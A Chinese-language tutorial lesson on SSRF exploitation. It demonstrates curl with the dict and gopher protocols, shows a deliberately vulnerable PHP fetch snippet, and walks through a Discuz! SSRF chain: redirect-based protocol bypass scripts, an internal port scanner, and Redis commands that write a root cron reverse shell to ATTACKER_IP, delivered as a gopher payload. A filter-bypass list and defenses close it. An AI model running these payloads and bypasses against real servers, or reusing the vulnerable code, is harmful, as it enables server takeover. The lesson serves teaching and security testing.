# 课程 P1-53：SSRF漏洞利用与Getshell实战 🎯



在本课程中，我们将学习SSRF（服务器端请求伪造）漏洞的利用方法，并通过一个实战案例，演示如何结合Redis未授权访问漏洞，最终实现反弹Shell（Getshell）。课程内容将从漏洞常见点、工具使用到完整的攻击链构建，力求让初学者也能理解。

---



## 一、SSRF漏洞的常见出现位置 🔍

上一节我们概述了课程目标，本节中我们来看看SSRF漏洞最常出现在哪些功能点。了解这些位置有助于我们在渗透测试中快速发现潜在漏洞。

以下是SSRF漏洞的高发场景：

1.  **云服务商/IDC厂商的管理功能**：这些平台常提供“网站连通性测试”或“网站响应测试”功能，允许用户输入URL来测试网络。如果该请求可被用户控制并篡改，就可能形成SSRF漏洞。
2.  **富文本编辑器中的“下载远程图片”功能**：许多编辑器支持将网络图片下载到本地服务器。此功能会向用户指定的URL发起请求，若未做严格过滤，可被用于端口扫描等操作。
3.  **网站内容采集/抓取功能**：常见于电商平台的“推广”或“商品抓取”功能。用户输入商品链接，后端服务器会去抓取标题、图片等信息。如果未过滤`file://`等协议，可直接用于读取服务器本地文件。
4.  **头像上传处的“远程URL设置”**：许多网站允许用户通过输入图片URL来设置头像，例如代码中可能存在 `$url = “http://example.com/avatar.jpg”` 这样的远程加载逻辑。
5.  **任何要求用户输入网址或IP地址的地方**：从经验来看，这类功能点普遍存在SSRF风险，因为开发者可能低估其危害，未做充分防护。

---

## 二、核心工具cURL的命令与协议支持 ⚙️

在了解了漏洞可能出现的位置后，我们需要一个强大的工具来理解和利用它。本节将介绍cURL命令的基本使用及其支持的多种协议，这是利用SSRF的基础。



cURL不仅支持HTTP/HTTPS，还支持多种其他协议，这为SSRF利用提供了广阔空间。



*   **基本HTTP请求**：
    ```bash
    curl -v http://baidu.com
    ```
    此命令会详细显示请求与响应的过程。

*   **FTP协议请求与端口探测**：
    ```bash
    # 在终端1监听端口
    nc -l -vv 6666
    # 在终端2使用curl发起FTP请求
    curl -v ftp://127.0.0.1:6666
    ```
    如果端口开放，连接会建立并保持。请求一个不存在的端口（如`ftp://127.0.0.1:422`）则会立即提示连接失败。利用这种特性可以进行内网端口扫描。

*   **Dict协议操作Redis**：
    ```bash
    # 直接查询Redis信息
    curl -v dict://127.0.0.1:6379/info
    ```
    如果目标Redis服务未设置密码（未授权访问），通过dict协议可以直接执行Redis命令，例如`keys *`查看所有键。


*   **Gopher协议**：
    ```bash
    curl -v gopher://127.0.0.1:6666/_info
    ```
    Gopher协议功能强大，可以封装复杂的TCP数据流，常用于攻击内网服务如Redis、MySQL等。




**PHP环境下的cURL调用**：
在Web应用中，SSRF常通过PHP的`curl_exec()`函数实现。一个存在漏洞的简单代码如下：
```php
<?php
$url = $_GET[‘url‘]; // 用户可控输入
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_exec($ch);
curl_close($ch);
?>
```
如果未对`$url`进行过滤，攻击者可以传入`file:///etc/passwd`或`dict://127.0.0.1:6379/info`等协议进行利用。



---


## 三、实战：Discuz! SSRF + Redis未授权Getshell 🚀


掌握了工具原理后，我们进入实战环节。本节将以一个存在SSRF漏洞的Discuz!论坛为例，演示如何通过端口扫描发现内网Redis服务，并利用Gopher协议反弹Shell。


### 1. 漏洞环境与限制绕过

目标Discuz!版本存在SSRF漏洞，但限制了请求的协议（仅允许HTTP）和URL后缀（需为图片格式，如.jpg）。

*   **漏洞点**：
    `http://target.com/ssrf.php?data=http://baidu.com/1.jpg`
    参数`data`的值会被服务器请求。

*   **协议绕过**：使用`header()`函数进行跳转。
    在攻击者控制的服务器上创建`bypass.php`：
    ```php
    <?php
    header(“Location: dict://127.0.0.1:6666/info“);
    ?>
    ```
    然后访问：`http://target.com/ssrf.php?data=http://attacker.com/bypass.php`
    虽然传入的是HTTP链接，但最终服务器会跳转到dict协议，请求本地的6666端口。

*   **后缀绕过**：利用Apache配置，将图片文件当作PHP解析。
    在Apache配置文件中加入：
    ```
    AddType application/x-httpd-php .jpg .txt
    ```
    这样，请求`http://attacker.com/shell.jpg`实际上会执行其中的PHP代码。




### 2. 内网端口扫描



利用FTP协议的连接延迟特性，可以编写脚本探测目标服务器内网开放端口。

以下是扫描脚本的核心逻辑（Python示例）：
```python
import requests
import time


def scan_port(ip, port):
    url = f“http://attacker.com/ssrf_bypass.php?protocol=ftp&ip={ip}&port={port}“
    try:
        start = time.time()
        requests.get(url, timeout=6)
        end = time.time()
        # 如果响应时间接近超时，则认为端口开放
        if end - start > 5.5:
            print(f“[+] {ip}:{port} is OPEN“)
    except:
        print(f“[-] {ip}:{port} is CLOSED or FILTERED“)

# 扫描常见端口
for port in [21, 22, 80, 6379, 3306]:
    scan_port(“127.0.0.1“, port)
```
通过扫描，我们发现了目标服务器本地开放了**6379端口**（Redis默认端口）。




### 3. 利用Gopher协议攻击Redis


确认存在Redis服务后，目标是利用其未授权访问漏洞写入计划任务，反弹Shell。




*   **步骤一：生成攻击Payload**
    首先，在本地使用`redis-cli`手动构造一个能反弹Shell的命令序列，并用`nc`监听流量，将完整的TCP交互数据保存下来。
    ```bash
    # 反弹Shell的Redis命令示例
    flushall
    set shell “\\n\\n*/1 * * * * /bin/bash -i >& /dev/tcp/ATTACKER_IP/6666 0>&1\\n\\n“
    config set dir /var/spool/cron/
    config set dbfilename root
    save
    ```

*   **步骤二：转换Payload为Gopher格式**
    使用公开的Python脚本，将抓取的TCP数据流转换成Gopher协议可发送的格式。
    ```bash
    python redis2gopher.py < captured_traffic.txt > gopher_payload.txt
    ```
    生成的`gopher_payload.txt`内容形如：`gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall...`



*   **步骤三：通过SSRF发送Payload**
    将Gopher格式的Payload放入我们的绕过脚本中，通过Discuz!的SSRF漏洞点触发。
    ```php
    <?php
    // attacker_server/ftp.php
    $payload = file_get_contents(‘gopher_payload.txt‘);
    header(“Location: gopher://127.0.0.1:6379/_{$payload}“);
    ?>
    ```
    访问：`http://target.com/ssrf.php?data=http://attacker.com/ftp.php`
    服务器会向本地的Redis发送精心构造的数据，成功写入计划任务。



*   **步骤四：接收反弹Shell**
    在攻击者服务器上监听指定端口：
    ```bash
    nc -lvvp 6666
    ```
    等待一分钟后（计划任务每分钟执行一次），即可获得目标服务器的一个反向Shell连接，并且通常是root权限。

---




## 四、SSRF漏洞的防御与绕过技巧 🛡️

在成功完成攻击演示后，我们必须思考如何防御。本节将简要介绍SSRF的常见限制手段及可能的绕过技巧。




1.  **限制请求协议（仅允许HTTP/HTTPS）**：
    *   **绕过**：如前所述，利用`header()`跳转、302重定向或利用其他服务（如DNS Rebinding）进行绕过。

2.  **过滤内网IP地址（如127.0.0.1, 10.0.0.0/8）**：
    *   **绕过**：使用域名解析（将内网IP绑定到自己的域名）、IPv6地址（`[::]`代表本地）、IP的十进制/八进制格式（如`2130706433`代表`127.0.0.1`）或利用URL解析差异。

3.  **限制请求端口（如只允许80, 443端口）**：
    *   **绕过**：尝试使用非标准端口上运行的内网服务，或利用`@`符号进行URL拼接绕过，如`http://baidu.com@127.0.0.1:22/`。

4.  **校验URL后缀或内容类型**：
    *   **绕过**：利用Apache/Nginx的配置特性，使服务器将图片或文本文件当作PHP脚本解析，如本节实战所用方法。


**最重要的防御建议**：
*   **白名单校验**：严格校验用户输入的URL，只允许访问预期的、安全的域名和资源。
*   **禁用不需要的协议**：在代码中或网络层面，禁止如`file://`、`gopher://`、`dict://`等危险协议。
*   **统一出口网络策略**：确保后端发起请求的服务器无法访问敏感内网系统。
*   **使用安全的替代方案**：如使用域名代替IP进行校验，使用URL解析库进行规范化处理等。


---

## 五、课程总结 📚

本节课中我们一起学习了SSRF漏洞从发现到利用的完整过程。

1.  **漏洞原理**：SSRF是服务器端请求伪造漏洞，允许攻击者诱使服务器向任意地址发起请求，从而攻击内网或本地服务。
2.  **关键工具**：cURL命令支持多种网络协议（HTTP、FTP、Dict、Gopher），是理解和利用SSRF的核心。
3.  **利用链构建**：我们以Discuz! SSRF为例，演示了如何绕过协议限制、扫描内网端口、发现Redis服务，并最终通过Gopher协议发送恶意Redis命令，实现定时任务反弹Shell。
4.  **防御与绕过**：SSRF的防御重点在于对用户输入进行严格的白名单校验和禁用危险协议。同时，攻击者也会使用跳转、解析差异等多种技巧进行绕过。


SSRF的危害远不止文件读取和端口扫描，结合内网脆弱的服务（如Redis、Memcached、MySQL），它可以直接导致系统被完全控制。希望本教程能帮助你深刻理解其危险性，并在安全测试与防御中加以应用。